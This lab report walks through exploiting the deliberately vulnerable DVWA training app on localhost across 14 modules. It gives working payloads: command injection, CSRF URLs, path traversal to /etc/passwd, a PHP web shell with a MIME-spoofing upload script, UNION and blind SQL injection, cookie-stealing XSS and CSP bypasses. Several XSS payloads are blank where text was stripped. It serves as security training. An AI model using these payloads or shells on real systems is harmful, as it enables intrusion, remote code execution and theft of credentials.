# DVWA Security Lab Report

## Table of Contents

1. [Brute Force](#1-brute-force)
2. [Command Injection](#2-command-injection)
3. [CSRF](#3-csrf)
4. [File Inclusion](#4-file-inclusion)
5. [File Upload](#5-file-upload)
6. [Insecure CAPTCHA](#6-insecure-captcha)
7. [SQL Injection](#7-sql-injection)
8. [SQL Injection (Blind)](#8-sql-injection-blind)
9. [Weak Session IDs](#9-weak-session-ids)
10. [XSS (DOM)](#10-xss-dom)
11. [XSS (Reflected)](#11-xss-reflected)
12. [XSS (Stored)](#12-xss-stored)
13. [Content Security Policy (CSP) Bypass](#13-content-security-policy-csp-bypass)
14. [JavaScript](#14-javascript)

---

## 1. Brute Force

### Security Level: Low

**Method:** Unlimited login attempts with no delay or lockout.  
**Result:** Credentials `admin` / `password` were successfully brute-forced.  
**Why it worked:** No rate limiting or account lockout mechanisms were implemented.



---

### Security Level: Medium

**Method:** A fixed 2-second delay was introduced between login attempts, but unlimited attempts were still allowed.  
**Result:** Login was eventually successful despite the delay.  
**Why it worked:** The delay slows attacks but does not prevent them. Given enough time, brute force still succeeds.


---

### Security Level: High

**Method:** A random delay (1–3 seconds) was observed, and a CSRF token was present in the login form.  
**Result:** Automated brute-force is significantly more difficult.  
**Why it's harder:** The CSRF token requires a valid session-based token on every request, breaking simple scripted attacks. The random delay further complicates timing-based automation.


---

## 2. Command Injection

### Security Level: Low

**Payload:**
```
12345; ls
```

**Result:** Both the `ping` command and `ls` executed, returning directory contents (`help`, `index.php`, `source`).  
**Why it worked:** User input was passed directly to `system()` without sanitization. The semicolon (`;`) terminated the first command and chained a second.



---

### Security Level: Medium

**Payload:**
```
123456 | ls
```

**Result:** Directory contents were still returned (`help`, `index.php`, `source`).  
**Why it worked:** The application filtered semicolons but left the pipe operator (`|`) unblocked. Incomplete filtering is effectively no filtering — the attack still succeeded via a different shell operator.



---

### Security Level: High

**Result:** Command injection was not successful at this level.  
**Why it's harder:** The High level applies a more comprehensive blocklist of shell metacharacters, including `;`, `|`, `&`, and others, preventing command chaining.



---

## 3. CSRF

### Security Level: Low

**Exploit URL:**
```
http://localhost:8080/vulnerabilities/csrf/?password_new=bruhmoment&password_conf=bruhmoment&Change=Change#
```

**Result:** Password was changed successfully without requiring the current password or any token.  
**Why it worked:** No CSRF token or origin validation was present. The GET request was trusted unconditionally — any crafted link could trigger the action if the victim was logged in.



---

### Security Level: Medium

**Method:** Chained Reflected XSS to send a same-origin request, bypassing the Referer header check.

**XSS Payload:**
```html
<script>
fetch("/vulnerabilities/csrf/?password_new=bruhmomentum&password_conf=bruhmomentum&Change=Change");
</script>
```

**Result:** Password was changed successfully.  
**Why it worked:** The application only validates the HTTP `Referer` header. Since the request originated from `localhost` via XSS injection, the referer check passed. No actual CSRF token was required.



---

### Security Level: High

**Method:** Extracted the valid `user_token` from the DOM using browser developer tools and appended it to the forged request URL.

**Crafted URL:**
```
http://localhost:8080/vulnerabilities/csrf/index.php?password_new=12345&password_conf=12345&Change=Change&user_token=460ab57d8fdb0e8f1c12741d008c71f8
```

**Result:** Password was changed successfully.  
**Why it worked:** The application validates a session-based CSRF token, which is the correct approach. However, if an attacker can execute JavaScript in the victim's browser (e.g., via XSS), they can extract the token from the DOM and include it in a forged request — bypassing the protection entirely.



---

## 4. File Inclusion

### Security Level: Low

**Payload:**
```
?page=../../../../../../etc/passwd
```

**Result:** The contents of `/etc/passwd` were displayed.  
**Why it worked:** User input was passed directly to `include()` with no validation. Directory traversal sequences (`../`) allowed navigation outside the web root, resulting in Local File Inclusion (LFI).



---

### Security Level: Medium

**Payloads:**
```
?page=..//..//..//..//..//..//etc/passwd
?page=....//....//....//....//....//....//etc/passwd
```

**Result:** The contents of `/etc/passwd` were displayed.  
**Why it worked:** The application removes the literal string `"../"` but does not apply the filter recursively. Patterns like `"..//"` and `"....//"` survive the filter and still resolve to valid traversal paths because the OS treats multiple slashes as a single slash.



---

### Security Level: High

**Payload:**
```
?page=file:///etc/passwd
```

**Result:** The contents of `/etc/passwd` were displayed.  
**Why it worked:** The application uses `fnmatch("file*", $file)` to validate input, meaning any value beginning with `"file"` is accepted. The `file://` URI scheme is a valid PHP stream wrapper that allows direct access to local filesystem paths — bypassing the intended restriction entirely.



---

## 5. File Upload

### Security Level: Low

**Payload:** `shell.php` containing:
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execution URL:**
```
/hackable/uploads/shell.php?cmd=ls
```

**Result:** The server executed `ls` and returned the contents of the uploads directory.  
**Why it worked:** No file type restrictions were enforced. The PHP file was uploaded to a web-accessible directory and interpreted directly by the server, resulting in Remote Code Execution (RCE).



---

### Security Level: Medium

**Method:** A Python script spoofed the MIME type as `image/jpeg` to bypass the server's content type check.

**Script Used:**
```python
import requests

url = "http://localhost:8080/vulnerabilities/upload/"

cookies = {
    "PHPSESSID": "YOUR_SESSION_ID",
    "security": "medium"
}

shell_code = "<?php system($_REQUEST['cmd']); ?>"

files = {
    "uploaded": ("mediumshell.php", shell_code, "image/jpeg")
}

data = {
    "MAX_FILE_SIZE": "100000",
    "Upload": "Upload"
}

response = requests.post(url, files=files, data=data, cookies=cookies)

if "succesfully uploaded" in response.text.lower():
    print("Success: mediumshell.php uploaded.")
else:
    print("Upload failed.")
```

**Execution URL:**
```
http://localhost:8080/hackable/uploads/mediumshell.php?cmd=ls
```

**Result:** The `ls` command executed and returned directory contents.  
**Why it worked:** The server only checks the MIME type sent in the HTTP request header — not the actual file contents. Spoofing `image/jpeg` satisfies the check while the file remains a fully functional PHP shell.



---

### Security Level: High

**Payload:** A valid JPEG image with PHP code appended to it, saved as `highshell.jpg`.

**Upload Result:** Passed all server-side checks:
- Extension: `.jpg` ✓
- File size: < 100KB ✓
- `getimagesize()` confirmed valid image ✓

**Execution Method:** The `.jpg` extension prevented direct execution. However, the **File Inclusion** vulnerability was chained to include and execute the uploaded file:

```
http://localhost:8080/vulnerabilities/fi/?page=../../hackable/uploads/highshell.jpg&cmd=ls
```

**Result:** The command executed and returned directory contents.  
**Why it worked:** The server verifies the image format but not whether PHP code is embedded within it. When the file is loaded via File Inclusion, PHP interprets the embedded code — demonstrating how chaining two vulnerabilities can bypass each individual control.



---

## 6. Insecure CAPTCHA

### Security Level: Low

**Steps:**
1. Opened the CAPTCHA module page.
2. Right-clicked and selected **Inspect Element**.
3. Located the hidden step field:
```html
<input type="hidden" name="step" value="1">
```
4. Changed `value="1"` to `value="2"`.
5. Clicked **Change**.

**Result:** Password was changed without solving the CAPTCHA.  
**Why it worked:** CAPTCHA validation was performed entirely client-side. The server trusted the submitted `step` value without independent verification.



---

### Security Level: Medium

**Steps:**
1. Opened the CAPTCHA module and right-clicked → **Inspect**.
2. Located the hidden step field and changed it:
```html
<input type="hidden" name="step" value="2">
```
3. Added a new hidden field below it:
```html
<input type="hidden" name="passed_captcha" value="true">
```
4. Entered a new password in both fields and clicked **Change**.

**Result:** Password was changed without solving the CAPTCHA.  
**Why it worked:** The Medium level introduces a `passed_captcha` flag, but stores it as a client-side hidden field. Since the server trusts the client's submission of this flag, setting it to `true` via browser inspection bypasses the check entirely.



---

### Security Level: High

**Steps:**
1. Opened the CAPTCHA page, filled in `password_new` and `password_conf`.
2. Opened Developer Tools → **Network** tab and submitted the form once to capture the request.
3. Modified the request: set the CAPTCHA value to `hidd3n_valu3`.
4. Spoofed the `User-Agent` header to `reCAPTCHA`.
5. Resent the modified request.

**Result:** Password was changed successfully.  
**Why it worked:** The application contains leftover development logic that grants CAPTCHA bypass when a specific hardcoded value and matching `User-Agent` are present in the request.




---

## 7. SQL Injection

### Security Level: Low

**Payload:**
```sql
1' UNION SELECT user, password FROM users #
```

**Result:** Usernames and password hashes were returned from the `users` table.  
**Why it worked:** User input was inserted directly into the SQL query without sanitization. The `UNION SELECT` statement appended a second query, extracting data from a separate table.



---

### Security Level: Medium

**Payload:**
```sql
1 UNION SELECT user, password FROM users #
```

**Method:** The interface uses a dropdown, restricting direct input. The option value was modified using **Inspect Element** and then submitted.

**Result:** All usernames and password hashes were returned (`admin`, `gordonb`, `1337`, `pablo`, `smithy`).  
**Why it worked:** The server trusts the value submitted by the client regardless of how the interface presents it. Modifying the DOM to inject a payload bypasses the UI restriction while the underlying query remains vulnerable.



---

### Security Level: High

**Payload:**
```sql
1' UNION SELECT user, password FROM users #
```

**Method:** The **"Change your ID"** link opens a separate input page. The value entered there is stored in a session variable and used in the main query.

**Result:** Usernames and password hashes were returned.  
**Why it worked:** Although input is no longer a direct GET parameter, the session-stored value is still inserted into the SQL query without sanitization or prepared statements. The injection point moved — but the vulnerability remained.



---

## 8. SQL Injection (Blind)

### Security Level: Low

**Payload:**
```sql
1' AND SLEEP(5) #
```

**Result:** Page response was delayed by ~5 seconds, then returned "User ID is MISSING from the database."  
**Why it worked:** The injected `SLEEP(5)` function was executed by the database. The observable delay confirms that the SQL was interpreted — a classic time-based Blind SQL Injection.



---

### Security Level: Medium

**Payload:**
```sql
1 AND SLEEP(5)
```

**Method:** Modified the dropdown input via **Inspect Element** to allow manual payload entry.

**Result:** Page response was delayed by ~5 seconds.  
**Why it worked:** Despite the dropdown UI, the submitted value is still inserted directly into the SQL query. The delay confirms successful injection, same as Low — only the interface differed.



---

### Security Level: High

**Payload:**
```sql
1' AND SLEEP(5) #
```

**Method:** Entered via the **"Change your ID"** secondary input page (same approach as regular SQL Injection – High).

**Result:** Page response was delayed by ~5 seconds.  
**Why it worked:** The session-stored ID is still inserted into the query unsanitized, identical to the High level of regular SQL Injection. The only difference is the payload — `SLEEP(5)` instead of `UNION SELECT` — confirming the injection through timing rather than visible output.



---

## 9. Weak Session IDs

### Security Level: Low

**Method:** Clicked **Generate** repeatedly and observed the `dvwaSession` cookie values.

**Result:** Session IDs incremented sequentially (1, 2, 3, 4...).  
**Why it's a vulnerability:** A sequential counter is trivially predictable. An attacker could enumerate valid session IDs and hijack active user sessions.



---

### Security Level: Medium

**Method:** Generated multiple session IDs and recorded their values.

**Result:** Each session ID corresponded to the current Unix timestamp at the moment of generation.  
**Why it's a vulnerability:** Unix timestamps are predictable and increase monotonically. An attacker can approximate when a session was created and enumerate timestamps in that window to guess valid IDs.



---

### Security Level: High

**Observation:** The `dvwaSession` cookie did not change when clicking **Generate** — it retained the value from earlier tests.

**Result:** New session ID values could not be captured or analyzed for this level.  
**Note:** This appears to be an environment-specific issue. The cookie was not being regenerated during testing, which prevented analysis of the High difficulty implementation. Normally, High difficulty uses an MD5 hash combining the counter and timestamp, which is still predictable if either component can be approximated.


---

## 10. XSS (DOM)

### Security Level: Low

**Payload:**
```html
<script>alert(document.cookie)</script>
```

**Execution URL:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

**Result:** Alert box displayed the session cookie:
```
PHPSESSID=jvh6b0psja6ugr2i4aheh63t67; security=low
```

**Why it worked:** The application reads the `default` URL parameter and writes it directly into the DOM using JavaScript with no sanitization. The browser interprets the injected `<script>` tag and executes it.



---

### Security Level: Medium

**Payload:**
```html
English></option></select>
```

**Execution URL:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=English></option></select>
```

**Result:** Alert box displayed the session cookie.  
**Why it worked:** The application blocks `<script>` tags but still reflects input into the page. Closing the existing `<select>` element and injecting an `` tag with an `onerror` handler executes JavaScript without using `<script>` at all.



---

### Security Level: High

**Payload:**
```html

```

**Execution URL:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=English#
```

**Result:** Alert box displayed the session cookie:
```
PHPSESSID=jvh6b0psja6ugr2i4aheh63t67; security=high
```

**Why it worked:** At High difficulty, DVWA reads the URL fragment (`#`) client-side rather than the `default` parameter. Fragment identifiers are never sent to the server, so server-side filtering is completely bypassed. The injected `` handler executes in the browser without any server interaction.



---

## 11. XSS (Reflected)

### Security Level: Low

**Payload:**
```html
<script>alert(document.cookie)</script>
```

**Result:** Alert box displayed:
```
PHPSESSID=jvh6b0psja6ugr2i4aheh63t67; security=low
```

**Why it worked:** User input from the `name` parameter is reflected directly into the HTML response without encoding or sanitization. The browser parses the injected `<script>` tag as executable code.



---

### Security Level: Medium

**Payload:**
```html
<ScRipT>alert(document.cookie)</ScRipT>
```

**Result:** Alert box displayed:
```
PHPSESSID=jvh6b0psja6ugr2i4aheh63t67; security=medium
```

**Why it worked:** The filter uses `str_replace` to remove the exact lowercase string `<script>`. Mixed-case input (`<ScRipT>`) does not match the filter pattern and passes through unmodified.



---

### Security Level: High

**Payload:**
```html

```

**Result:** Alert box displayed:
```
PHPSESSID=jvh6b0psja6ugr2i4aheh63t67; security=high
```

**Why it worked:** The High level uses a regex to strip tags containing "script", but JavaScript can execute through HTML event attributes. Since `onerror` does not contain the word "script", the payload bypasses the filter entirely.



---

## 12. XSS (Stored)

### Security Level: Low

**Payload (Message field):**
```html
<script>window.location='https://google.com'</script>
```

**Steps:**
1. Increased the **Message** field `maxlength` attribute to 100 using browser developer tools.
2. Submitted the payload.

**Result:** Every visitor who loads the guestbook is redirected to `https://google.com`.  
**Why it worked:** Input is stored and rendered without sanitization. The `<script>` tag executes on every page load for every user who views the entry.



---

### Security Level: Medium

**Payload (Name field):**
```html
<sCriPt>window.location='https://google.com'</sCriPt>
```

**Steps:**
1. Increased **Name** field `maxlength` to 100 using developer tools.
2. Submitted the entry.

**Result:** Users are redirected upon loading the guestbook.  
**Why it worked:** The filter only strips the exact lowercase `<script>` string. Mixed-case bypasses it, the payload is stored, and executes for all subsequent visitors.



---

### Security Level: High

**Payload (Name field):**
```html

```

**Steps:**
1. Increased **Name** field `maxlength` to 100 and `size` to 50 using developer tools.
2. Submitted the entry.

**Result:** Users are redirected upon loading the guestbook.  
**Why it worked:** The filter targets `<script>` patterns but does not block other HTML tags or event handlers. The `` vector avoids the word "script" entirely while still executing arbitrary JavaScript.


---

## 13. Content Security Policy (CSP) Bypass

### Security Level: Low

**Payload Attempted:**
```
https://pastebin.com/raw/mdVfvY73
```
Paste contained:
```javascript
alert(document.cookie)
```

**Result:** The page refreshed but no JavaScript executed.  
**Why it failed:** The CSP policy permits scripts from `https://pastebin.com`, which should allow loading external JavaScript. However, Pastebin now serves raw pastes with `Content-Type: text/plain`. Modern browsers enforce strict MIME type checking and refuse to execute content not served as `application/javascript`.


---

### Security Level: Medium

**Payload:**
```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>
```

**Result:** Alert box appeared displaying the session cookie.  
**Why it worked:** The CSP uses a nonce to allow inline scripts:
```
script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='
```
However, the nonce is static and never rotates between requests. Since it is visible in the page source, an attacker can simply reuse it in a malicious inline script.



---

### Security Level: High

**Method:** Directly modified the server-side JSONP endpoint file:
```
/var/www/html/vulnerabilities/csp/source/jsonp.php
```

**Edit Applied:**
```php
// echo $callback . "(" . json_encode($outp) . ")";
echo "alert(document.cookie)";
```

**Result:** Clicking "Solve the sum" triggered an alert displaying the session cookie.  
**Why it worked:** The CSP policy is `script-src 'self'`, which trusts `jsonp.php` because it is same-origin. CSP validates the source URL — not the file's contents. Replacing the JSONP response body with arbitrary JavaScript causes the browser to execute it with full trust.




---

## 14. JavaScript

### Security Level: Low

**Steps:**
1. Used **Inspect Element** to remove the `hidden` attribute from the token field:
```html
<input type="hidden" name="token" value="8b479aefbd90795395b3e7089ae0dc09" id="token">
```
2. Entered `success` in the phrase input field.
3. Ran the following in the browser console:
```javascript
generate_token()
```
4. The token field updated with the correct value. Submitted the form successfully.

**Why it worked:** The token generation logic exists entirely in client-side JavaScript and is directly callable from the browser console.



---

### Security Level: Medium

**Steps:**
1. Entered `success` in the phrase field and removed `hidden` from the token field.
2. Opened the browser console and ran:
```javascript
do_elsesomething("XX")
```
3. The token field updated automatically. Submitted the form.

**Why it worked:** The JavaScript was moved to an external file (`medium.js`) and minified, but after pretty-printing it, the logic is clear: the token is generated by reversing the string `"XX" + phrase + "XX"`. Since all of this runs client-side, it can be triggered directly from the console.



---

### Security Level: High

**Attempted:** Inspected the `phrase` and `token` fields and attempted to manually reproduce the token through the browser console.

**Result:** Token generation was not successfully reproduced.  
**Why it's harder:** The token generation logic is heavily obfuscated, making it significantly more difficult to read, trace, or call directly from the console compared to the previous levels. Unlike Low and Medium, there is no clearly exposed function to invoke.


---
